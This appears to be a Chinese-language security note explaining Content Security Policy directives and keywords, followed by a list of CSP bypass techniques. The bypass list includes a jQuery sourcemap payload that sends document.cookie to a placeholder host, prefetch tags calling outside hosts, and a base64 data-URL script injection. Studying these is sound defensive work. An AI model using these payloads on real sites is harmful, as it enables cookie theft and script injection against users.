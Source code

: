 CSP
================================

CSP是什么？
--------------------------------
Content Security Policy，简称 CSP。顾名思义，这个规范与内容安全有关，主要是用来定义页面可以加载哪些资源，减少 XSS 的发生。


配置
--------------------------------

CSP策略可以通过 HTTP 头信息或者 meta 元素定义。

CSP 有三类：

- Content-Security-Policy  (Google Chrome)
- X-Content-Security-Policy (Firefox)
- X-WebKit-CSP (WebKit-based browsers, e.g. Safari)

::

    HTTP header :
    "Content-Security-Policy:" 策略
    "Content-Security-Policy-Report-Only:" 策略


HTTP Content-Security-Policy 头可以指定一个或多个资源是安全的，而Content-Security-Policy-Report-Only则是允许服务器检查（非强制）一个策略。多个头的策略定义由优先采用最先定义的。

HTML Meta :
::

    <meta http-equiv="content-security-policy" content="策略">
    <meta http-equiv="content-security-policy-report-only" content="策略">


指令说明
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

============    ============
指令            说明     
============    ============
default-src     定义资源默认加载策略
connect-src     定义 Ajax、WebSocket 等加载策略
font-src        定义 Font 加载策略
frame-src       定义 Frame 加载策略
img-src         定义图片加载策略
media-src       定义 <audio>、<video> 等引用资源加载策略
object-src      定义 <applet>、<embed>、<object> 等引用资源加载策略
script-src      定义 JS 加载策略
style-src       定义 CSS 加载策略
sandbox         值为 allow-forms，对资源启用 sandbox
report-uri      值为 /report-uri，提交日志
============    ============

关键字
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

+--------------------+----------------------------+------------------------------------------------------------------+
| 属性值             | 示例                       | 说明                                                             |
+====================+============================+==================================================================+
| -                  | img-src -                  | 允许从任意url加载，除了data:blob:filesystem:schemes              |
+--------------------+----------------------------+------------------------------------------------------------------+
| 'none'             | object-src 'none'          | 禁止从任何url加载资源                                            |
+--------------------+----------------------------+------------------------------------------------------------------+
| 'self'             | img-src 'self'             | 只可以加载同源资源                                               |
+--------------------+----------------------------+------------------------------------------------------------------+
| data:              | img-src 'self' data:       | 可以通过data协议加载资源                                         |
+--------------------+----------------------------+------------------------------------------------------------------+
| domain.example.com | ing-src domain.example.com | 只可以从特定的域加载资源                                         |
+--------------------+----------------------------+------------------------------------------------------------------+
| \*.example.com     | img-src \*.example.com     | 可以从任意example.com的子域处加载资源                            |
+--------------------+----------------------------+------------------------------------------------------------------+
| https://cdn.com    | img-src https://cdn.com    | 只能从给定的域用https加载资源                                    |
+--------------------+----------------------------+------------------------------------------------------------------+
| https:             | img-src https:             | 只能从任意域用https加载资源                                      |
+--------------------+----------------------------+------------------------------------------------------------------+
| 'unsafe-inline'    | script-src 'unsafe-inline' | 允许内部资源执行代码例如style attribute,onclick或者是sicript标签 |
+--------------------+----------------------------+------------------------------------------------------------------+
| 'unsafe-eval'      | script-src 'unsafe-eval'   | 允许一些不安全的代码执行方式，例如js的eval()                     |
+--------------------+----------------------------+------------------------------------------------------------------+

- ``none``：你可能期望不匹配任何内容
- ``self``：与当前来源相同，但不包含子域
- ``unsafe-inline``：允许内联Javascript和CSS
- ``unsafe-eval``：允许文本到JS的机制例如eval

配置范例
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

允许执行内联 JS 代码，但不允许加载外部资源
::

    Content-Security-Policy: default-src 'self'; script-src 'self' 'unsafe-inline';


Bypass
--------------------------------

预加载
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
浏览器为了增强用户体验，让浏览器更有效率，就有一个预加载的功能，大体是利用浏览器空闲时间去加载指定的内容，然后缓存起来。这个技术又细分为DNS-prefetch、subresource、prefetch、preconnect、prerender。

HTML5页面预加载是用link标签的rel属性来指定的。如果csp头有unsafe-inline，则用预加载的方式可以向外界发出请求，例如

::

    <!-- 预加载某个页面 -->
    <link rel='prefetch' href='http://xxxx'><!-- firefox -->
    <link rel='prerender' href='http://xxxx'><!-- chrome -->
    <!-- 预加载某个图片 -->
    <link rel='prefetch' href='http://xxxx/x.jpg'>
    <!-- DNS 预解析 -->
    <link rel="dns-prefetch" href="http://xxxx">
    <!-- 特定文件类型预加载 -->
    <link rel='preload' href='//xxxxx/xx.js'><!-- chrome -->

另外，不是所有的页面都能够被预加载，当资源类型如下时，讲阻止预加载操作：

- URL中包含下载资源
- 页面中包含音频、视频
- POST、PUT和DELET操作的ajax请求
- HTTP认证
- HTTPS页面
- 含恶意软件的页面
- 弹窗页面
- 占用资源很多的页面
- 打开了chrome developer tools开发工具

MIME Sniff
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

举例来说，csp禁止跨站读取脚本，但是可以跨站读img，那么传一个含有脚本的img，再``<script href='http://xxx.com/xx.jpg'>``，这里csp认为是一个img，绕过了检查，如果网站没有回正确的mime type，浏览器会进行猜测，就可能加载该img作为脚本


302跳转
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

对于302跳转绕过CSP而言，实际上有以下几点限制：

- 跳板必须在允许的域内。
- 要加载的文件的host部分必须跟允许的域的host部分一致

其他
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

- CND Bypass,如果网站信任了某个CDN, 那么可利用相应的CDN bypass
- Angular versions <1.5.9 >=1.5.0，存在漏洞 `Git pr <https://github.com/angular/angular.js/pull/15346>`_
- jQuery sourcemap 
    ::

        document.write(`<script>
        //@        sourceMappingURL=http://xxxx/`+document.cookie+`<\/script>`);``
- a标签的ping属性
- For FireFox ``<META HTTP-EQUIV="refresh" CONTENT="0; url=data:text/html;base64,PHNjcmlwdD5hbGVydCgnSWhhdmVZb3VOb3cnKTs8L3NjcmlwdD4=">``
- ``<link rel="import" />``
- ``<meta http-equiv="refresh" content="0; url=http://...." />``
